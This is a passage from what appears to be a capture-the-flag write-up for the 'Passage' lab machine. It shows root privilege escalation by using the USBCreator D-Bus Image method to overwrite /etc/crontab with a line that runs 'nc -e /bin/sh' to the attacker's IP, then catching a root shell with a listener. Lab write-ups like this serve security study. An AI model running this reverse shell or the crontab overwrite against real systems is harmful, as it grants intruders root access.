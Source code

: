 ```
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
nadav@passage:/tmp$ vim cron.txt
nadav@passage:/tmp$ cat cron.txt
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    nc -e /bin/sh 10.10.14.150 9191
#
nadav@passage:/tmp$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /tmp/cron.txt /etc/crontab true
()
nadav@passage:/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    nc -e /bin/sh 10.10.14.150 9191
#
```

And after a minute of waiting, nc catches the shell!

```
┌─[root@parrot]─[/home/utopia/Documents/HTB/Boxes/Passage]
└──╼ #nc -lvnp 9191
listening on [any] 9191 ...
connect to [10.10.14.150] from (UNKNOWN) [10.10.10.206] 52216
whoami
root
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@passage:~# ls
ls
artifacts  files  root.txt
root@passage:~# cat root.txt
cat root.txt
492c733f*************f6b3f5569195
root@passage:~# 
```
